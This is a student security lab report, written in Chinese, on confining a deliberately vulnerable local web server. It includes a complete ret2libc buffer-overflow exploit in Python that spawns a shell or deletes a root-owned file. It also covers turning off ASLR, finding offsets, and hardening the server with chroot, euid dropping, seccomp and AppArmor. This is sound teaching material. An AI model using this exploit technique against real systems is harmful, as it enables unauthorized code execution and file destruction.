# 0 环境配置

## 0.1 关闭ASLR

```bash
# 关闭 ASLR
sudo sysctl -w kernel.randomize_va_space=0
```
PS：重启后ASLR需要重新运行命令关闭

## 0.2 安装seccomp

```bash
## 安装 i386 架构支持
# 使用源 deb http://http.kali.org/kali kali-rolling main contrib non-free
sudo vim /etc/apt/sources.list
sudo dpkg --add-architecture i386
sudo apt update
sudo apt install libseccomp-dev:i386 seccomp:i386
```

## 0.3 AppArmor安装

```bash
sudo apt install apparmor-profiles apparmor-utils
```

## 0.4 exploit脚本

见[exploit.py](./src/exploit.py)

```python
#!/usr/bin/python
import sys
import socket
import traceback
import struct
import time
import os.path
import binascii
from pwn import *

# libc base address
# ASLR shoud be off, so that libc's base address will not change untill next reboot 
# you can use "ldd ./program" to check the libc base address
base_addr = 0xf7c00000

# all of the offsets of functions (strings) inside libc won't change much (sometimes changed, so check is needed) .
# to get the offset of a funtion, you can use:
##  readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " system"
# to get "/bin/sh":
## ropper --file /lib/i386-linux-gnu/libc.so.6 --string "/bin/sh"

# system
sys_addr = base_addr + 0x0004c800 
# /bin/sh
sh_addr = base_addr + 0x001b5faa
# exit
ex_addr = base_addr + 0x0003bc90
# unlink
ul_addr = base_addr + 0x0010cd80
# dead
d_addr = 0xdeadbeef


# ebp  to make the task simple, we print ebp of getToken function (vulnerable) 
ebp_addr = 0xffffd158


## Below is the function that you should modify to construct an
## HTTP request that will cause a buffer overflow in some part
## of the vulnerable web server and exploit it.

def build_exploit(shellcode, type):

    ul_arg = "/tmp/test.txt\0"
    ul_arg_addr = ebp_addr + 20

    sys_arg = "/bin/sh\0"
    sys_arg_addr = ebp_addr + 20

    req = ("POST / HTTP/1.1\r\n").encode('latin-1')
    # All of the header information other than "Content-Length" is not important
    req += ("Host: 127.0.0.1\r\n").encode('latin-1')
    # The Content-Length below is useful, and depends on the length of 
    # username plus password, you need to use wireshark (together with web browser) 
    # for checking the length
    req += ("Content-Length: 58\r\n").encode('latin-1') 
    req += ("Origin: http://127.0.0.1\r\n").encode('latin-1')
    req += ("Connection: keep-alive\r\n").encode('latin-1')
    req += ("Referer: http://127.0.0.1/\r\n").encode('latin-1')

    req += ("Hacking: ").encode('latin-1')
    # For different oses (and compilation), the length of fillup for 
    # hijacking the return address in the stack, could be different,
    # therefore you need to debug the program for checking and adjusting.
    req += b'A' * 1068
    # use "/bin/sh" string in libc
    if type == 1:
        req += p32(sys_addr)
        req += p32(ex_addr)
        req += p32(sh_addr)
        req += p32(0)

    # put "/bin/sh" string in the stack
    # ebp is needed to locate the place of string 
    # Note: using this method, you can put arbitrary string in the stack, 
    # so that "system" can execute arbitrary command
    # req += p32(sys_addr)
    # req += p32(ex_addr)
    # req += p32(sys_arg_addr)
    # req += p32(0)
    # req += sys_arg.encode('latin-1')


    # remove a file specified by the path "ul_arg"
    if type == 2:
        req += p32(ul_addr)
        req += p32(ex_addr)
        req += p32(ul_arg_addr)
        req += p32(0)
        req += ul_arg.encode('latin-1')
    

    req += ("\r\n").encode('latin-1')
    req += ("\r\n").encode('latin-1')
   
    # Below is the username/password that you can Register into the web server
    # by using web browser. These information will be stored into the sqlite db behind.
    # You need to change these information according to your own registration.
 
    # Note that successful POST will be responded by the server with a hint page.
    # By using the successful response, you can judge whether the server has been 
    # crashed (by exploit), so that you can adjust the fillup accordingly.
    req += ("login_username=U202012043&login_password=1234567&submit_login=Login").encode('latin-1')

    print(req)
    return req

    #If you cannot use p32 (in pwnlib), you can use the following line
    #req += (addr1).to_bytes(4, byteorder='little')


def send_req(host, port, req):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print("Connecting to %s:%d..." % (host, port))
    sock.connect((host, port))

    print("Connected, sending request...")
    sock.send(req)

    print("Request sent, waiting for reply...")
    rbuf = sock.recv(1024)
    resp = ("").encode("latin-1")
    while len(rbuf):
      resp=resp+rbuf
      rbuf = sock.recv(1024)

    print("Received reply.")
    sock.close()
    return resp


if len(sys.argv) != 2:
    print("Usage: " + sys.argv[0] + " type")
    print("type: 1 for shell, 2 for unlink")
    exit()

try:
    shellcode = ""
    req = build_exploit(shellcode, int(sys.argv[1]))
    print("HTTP request:")
    print(req)

    resp = send_req("127.0.0.1", 80, req)
    print("HTTP response:")
    print(resp)
except:
    print("Exception:")
    print(traceback.format_exc())
```

第一次使用前请修改调用函数的偏移地址

每次使用前请修改ebp_addr和base_addr

使用方法

```
Usage: python3 exploit.py type
type: 1 for shell, 2 for unlink
```

1为打开shell, 2为删除指定文件

# 1 AppArmor

## 1.1 针对ping程序

### 1.1.1 删除默认配置文件

卸载并删除针对ping的默认配置文件

```bash
sudo apparmor_parser -R /etc/apparmor.d/bin.ping
sudo aa-status
sudo rm /etc/apparmor.d/bin.ping
```

### 1.1.2 对ping进行访问控制

在终端1为ping程序生成配置文件，在另一个终端中运行ping程序，根据扫描到的操作设置相应权限。

终端1

```bash
sudo aa-genprof /bin/ping
```

终端2

```bash
/bin/ping www.baidu.com
```

ping正常执行如图所示：



修改其配置文件`/etc/apparmor.d/usr.bin.ping`：
（该文件可能不存在，直接创建修改内容即可）



```
# Last Modified: Tue May 30 06:41:46 2023
abi <abi/3.0>,

include <tunables/global>

/usr/bin/ping {
  include <abstractions/base>
  include <abstractions/lightdm>
  deny capability net_raw,
  deny network inet raw,
  deny network inet6 raw,
  /usr/bin/ping mr,
}
```
将新的profile文件加载到AppArmor中
```bash
sudo apparmor_parser -r /etc/apparmor.d/usr.bin.ping
```
AppArmor生效，ping程序无法正常工作



# 2 进程约束

## 2.1 chroot

### 2.1.1 寻找溢出点

工作目录为**task1**,所有代码从code拷贝而来

使用如下命令编译得到目标程序、为touchstone设置特权并启动服务端程序。

```bash
make
sudo chown root touchstone
sudo chmod +s touchstone
```

启动程序 

```bash
./touchstone
```


使用账号U202012043, 密码1234567进行注册与登录。

寻找溢出位置

必须找到getToken()栈帧内存储返回地址的位置与缓冲区s之间的距离。由于缓冲区变量s的长度为1024，故此长度一定大于1024，修改攻击脚本，使用如下代码进行测试

```python
req += b'A' * 1024 + cyclic(200)
```

使用该脚本进行攻击，查看崩溃信息

```bash
python3 exploit.py 2
```



查看崩溃信息（若缓冲区信息过多，可先用``sudo dmesg --clear``清理，再执行脚本攻击查看）
```bash
sudo dmesg
```


根据banksv崩溃信息，可判断getToken()的返回地址被0x6161616c覆盖，对应字符串laaa，位于偏移地址44处。


故前面填充的长度应为1024 + 44 = 1068。

### 2.1.2 获取链接库与偏移地址

因此，在后续攻击中，首先在Hacking中填充1068个字节，再写入其他攻击所用的栈数值即可。

获取banksv的链接库。

```bash
ldd banksv
```


基地址为0xf7c00000。

搜索/bin/sh字符串在libc中的偏移值

```bash
ropper --file /lib/i386-linux-gnu/libc.so.6 --string "/bin/sh"
```


搜索其他函数在libc的偏移值

```bash
readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " system"
readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " exit"
readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " unlink"
readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " remove"
readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " chdir"
readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " chroot"
readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " puts"
```



将其值填入src/exploit.py中对应位置

### 2.1.3 测试删除/tmp/test.txt

创建 /tmp/test.txt，将其所有者改为root

```bash
touch /tmp/test.txt
sudo chown root /tmp/test.txt
ll /tmp/test.txt
```


进行攻击

```bash
python3 exploit.py 2
```


成功删除/tmp/test.txt

### 2.1.4 增加chroot支持

工作目录为task2,所有代码从task1拷贝。

修改server.c，增加chroot支持。

在server.c中添加如下代码

```c
  /* fill in here for  chroot code snippet
   *  chroot root directory be '/jail'   
   */
  
  //code here...
  if(chroot("/jail") == 0)
    printf("chroot success\n");
```

之后使用脚本chroot-setup.sh建立/jail下的工作目录，设置权限、运行服务

```bash
make
sudo ./chroot-setup.sh
cd /jail
sudo ./touchstone
```


创建测试文件

```bash
# 创建测试文件
sudo touch /tmp/test.txt
sudo chown root /tmp/test.txt
ll /tmp/test.txt
```

开启服务器


输出chroot成功。

尝试使用上述方法继续攻击。

使用gdb查看banksv的libc库的真实加载基地址

```bash
# 获取banksv的进程号
ps -au | grep banksv
# 使用gdb调试程序
sudo gdb -q -p 进程号
```


```
# 查看基地址
info proc map
```

banksv的libc库真实加载地址为0xf7c00000



修改脚本内基地址base_addr的值。

攻击后未能成功删除。


尝试删除/jail/tmp/test.txt

创建/jail/tmp/test.txt

```
sudo touch /jail/tmp/test.txt
```


## 2.2 改变进程euid完成进程约束

### 2.2.1 改变进程euid

任务目录为task3, 从code中复制而来

在server.c中每次 fork（共3处）得到的子进程添加如下代码

分别位于80行、112行、144行。

```c
/* fill code in here 
    * using setresuid(ruid, euid, suid) and so on..
     */
    setresuid(1000, 1000, 1000);
    //your code 
```


进行以上修改后，编译运行服务器，并查看相应子进程的 UID，操作如下

```bash
make
sudo chown root touchstone
sudo chmod +s touchstone
sudo ./touchstone
ps -au
```


### 2.2.2 测试删除/tmp/test.txt

创建 /tmp/test.txt，将其所有者改为root

```bash
touch /tmp/test.txt
sudo chown root /tmp/test.txt
ll /tmp/test.txt
```


进行攻击,尝试删除/tmp/test.txt

```bash
python3 exploit.py 2
```

dmesg没有崩溃信息，表示攻击正常执行，但/tmp/test.txt未被删除，因此攻击失败


将/tmp/test.txt的属主改成kali后再次进行尝试

```bash
sudo chown kali /tmp/test.txt
```


再次进行攻击

发现/tmp/test.txt被删除


## 2.3 使用seccomp方法

### 2.3.1 环境配置

见0.2 seccomp安装

### 2.3.2默认运行，显式拒绝

工作目录为task4, 从code拷贝而来

在`banksv.c`中添加seccomp的相关函数，并在main函数中进行调用，如下所示。

init_seccomp()中使用默认允许规则初始化，并添加了拒绝unlink的规则，之后将seccomp进行加载

```cpp
#include <seccomp.h>
void init_seccomp()
{
    int ret;
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_ALLOW);
    if(ctx == NULL) { exit(-1); }
    ret = seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(unlink), 0);

    if(ret < 0) { exit(-1); }
    ret = seccomp_load(ctx);
    
    if(ret < 0) { exit(-1); }
    seccomp_release(ctx);
}
int main(int argc, char** argv) {
	…
	init_seccomp();
	…
}
```

添加上述代码后，在Makefile中为banksv对应的编译选项添加-lseccomp，如下所示

```makefile
gcc -m32 -no-pie -fno-stack-protector -g -o banksv ./sql_lite3/sqlite3.o -l pthread -l dl /sql_lite3/sqlhelper.c banksv.c token.c parse.c http-tree.c handle.c -lseccomp
```

编译并运行。

```bash
make
sudo chown root touchstone
sudo chmod +s touchstone
sudo ./touchstone
```

### 2.3.3 测试删除/tmp/test.txt

创建测试文件，并将其主属性设为root

```bash
touch /tmp/test.txt
sudo chown root /tmp/test.txt
```


进行攻击，尝试删除/tmp/test.txt

```bash
python3 exploit.py 2
```

发现并没有删除/temp/test.txt文件，且dmesg中存在seccomp的拦截信息，对banksv尝试使用的10号系统调用进行了拦截，通过在系统调用表中查看可知该调用为unlink。说明seccomp的默认运行显示拒绝的方式完成了进程约束。

```bash
ll /tmp/test.txt
sudo dmesg
cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep 10
```



但是以上约束也会带来副作用，原程序的部分功能无法正常使用，如用浏览器进行注册时，点击Register候连接被重置，如下图所示。



使用dmesg查看拦截信息。



尝试获取shell

```bash
python3 exploit_1.py 1
```

攻击结果，不能获取shell



使用dmesg查看拦截信息，如下图所示。


发现其对mount系统调用进行了拦截，猜测mount系统调用对unlink有一定的联系。

### 2.3.4 默认拒绝，显示允许

工作目录为task5, 所有代码从task4拷贝而来

将init_seccomp()中的所有规则删除，添加默认拒绝，显示允许的规则。

```cpp
void init_seccomp()
{
    int ret;
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
    if(ctx == NULL) { exit(-1); }
    
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(openat), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(rt_sigaction), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(socketcall), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(clone), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(set_robust_list), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getresuid32), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getcwd), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getpid), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(statx), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(_llseek), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fcntl64), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(access), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(brk), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fchmod), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(geteuid32), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fchown32), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fsync), 0);

    // seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(unlink), 0);

    ret = seccomp_load(ctx);
    if(ret < 0) { exit(-1); }
    seccomp_release(ctx);
}
```

添加以上规则后编译运行服务器。

```bash
make
sudo chown root touchstone
sudo chmod +s touchstone
sudo ./touchstone
```

### 2.3.5 测试删除/tmp/test.txt

创建测试文件，并设置其属主

```bash
sudo touch /tmp/test.txt
sudo chown root /tmp/test.txt
```

查看 /tmp/test.txt的状态

```bash
ll /tmp/test.txt
```


进行攻击

```bash
python3 exploit.py 2
```

查看攻击效果，查看seccomp的拦截信息

```bash
ll /tmp/test.txt
sudo dmesg
cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep 10
```



seccomp对10号系统调用进行了拦截。

尝试获取shell。

```bash
python3 exploit.py 1
```

发现攻击失败，使用dmesg查看seccomp的拦截信息,发现其对175号系统调用进行了拦截。

```bash
sudo dmesg
cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep 175
```


为了验证上述约束，添加允许unlink()的规则，之后在尝试删除文件

```cpp
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(unlink), 0);
```

结果如图所示，删除成功。



允许unlink后，删除成功，说明上述约束是生效的。

## 2.4 AppArmor

### 2.4.1 环境配置

见0.3

### 2.4.2 拒绝对/tmp文件夹的访问

任务的工作目录为task6, 其代码从code复制而来，编译并运行。

```bash
make
sudo chown root touchstone
sudo chmod +s touchstone
sudo ./touchstone
```

使用aa-genprof对banksv生成配置文件

```bash
sudo aa-genprof ~/Desktop/ISSecLab/lab2/src/task6/banksv
```

按F跳过

并结合aa-logprof和手动添加规则对配置文件进行完善

最终配置文件如下，拒绝banksv对/tmp文件夹下所有文件的操作。

手动修改配置文件`/etc/apparmor.d/home.kali.Desktop.ISSecLab.lab2.src.task6.banksv`

```
# Last Modified: Tue May 30 06:57:17 2023
abi <abi/3.0>,

include <tunables/global>

/home/kali/Desktop/ISSecLab/lab2/src/task6/banksv {
  include <abstractions/apache2-common>
  include <abstractions/base>

  deny /tmp/** mrwx,

  /home/kali/Desktop/ISSecLab/lab2/src/task6/banksv mr,
  /home/kali/Desktop/ISSecLab/lab2/src/task6/** mkwr,

}
```

重新加载配置文件使以上配置文件生效

```bash
sudo apparmor_parser -r /etc/apparmor.d/home.kali.Desktop.ISSecLab.lab2.src.task6.banksv
```

再次尝试攻击，攻击失败，约束成功



尝试获取shell

```bash
python3 exploit.py 1
```

结果，无法获取shell。

查看日志

```bash
sudo dmesg
```


由于AppArmor基于类白名单进行权限管理，也无法获取shell。
